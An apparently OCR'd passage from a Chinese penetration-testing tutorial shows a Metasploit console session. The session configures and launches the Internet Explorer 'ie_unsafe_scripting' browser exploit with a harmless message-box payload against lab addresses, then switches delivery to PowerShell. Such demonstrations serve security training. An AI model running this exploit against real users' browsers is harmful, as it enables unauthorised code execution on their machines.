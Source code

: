 让我来用一个比较冷门的exploit演示Metasploit和beEF的组合用法：

```
msf exploit(ms14_012_textrange) > use  exploit/windows/browser/ie_unsafe_scripting
msf exploit(ie_unsafe_scripting) > info

   Name: Microsoft Internet Explorer Unsafe Scripting Misconfiguration
 Module: exploit/windows/browser/ie_unsafe_scripting
   Platform: Windows
   …………

msf exploit(ie_unsafe_scripting) > set SRVHOST 192.168.1.163
SRVHOST => 192.168.1.163
msf exploit(ie_unsafe_scripting) > set payload windows/messagebox
payload => windows/messagebox
msf exploit(ie_unsafe_scripting) > show options

Module options (exploit/windows/browser/ie_unsafe_scripting):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   SRVHOST  192.168.1.163    yes   The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT      8080         yes   The local port to listen on.
   SSL         false               noNegotiate SSL for incoming connections
   SSLCert noPath to a custom SSL certificate (default is randomly generated)
   TECHNIQUE  VBS  yes   Delivery technique (VBS Exe Drop or PSH CMD) (accepted: VBS, Powershell)
   URIPATH       no                The URI to use for this exploit (default is random)


Payload options (windows/messagebox):

   Name  Current Setting   Required  Description
   ----  ---------------   --------  -----------
   EXITFUNC  process   yes   Exit technique (accepted: seh, thread, process, none)
   ICON  NOyes   Icon type can be NO, ERROR, INFORMATION, WARNING or QUESTION
   TEXT  Hello, from MSF!  yes   Messagebox Text (max 255 chars)
   TITLE MessageBoxyes   Messagebox Title (max 255 chars)


Exploit target:

   Id  Name
   --  ----
   0   Windows x86/x64


msf exploit(ie_unsafe_scripting) > set URIPATH /a
URIPATH => /a
msf exploit(ie_unsafe_scripting) > exploit
[*] Exploit running as background job.
msf exploit(ie_unsafe_scripting) > 
[*] Using URL: http://192.168.1.163:8080/a
[*] Server started.
[*] 192.168.1.134ie_unsafe_scripting - Request received for /a
[*] 192.168.1.134ie_unsafe_scripting - Sending exploit html/javascript
[*] 192.168.1.134ie_unsafe_scripting - Request received for /a

msf exploit(ie_unsafe_scripting) > set TECHNIQUE Powershell
TECHNIQUE => Powershell
msf exploit(ie_unsafe_scripting) > rerun
[*] Stopping existing job...

[*] Server stopped.
```
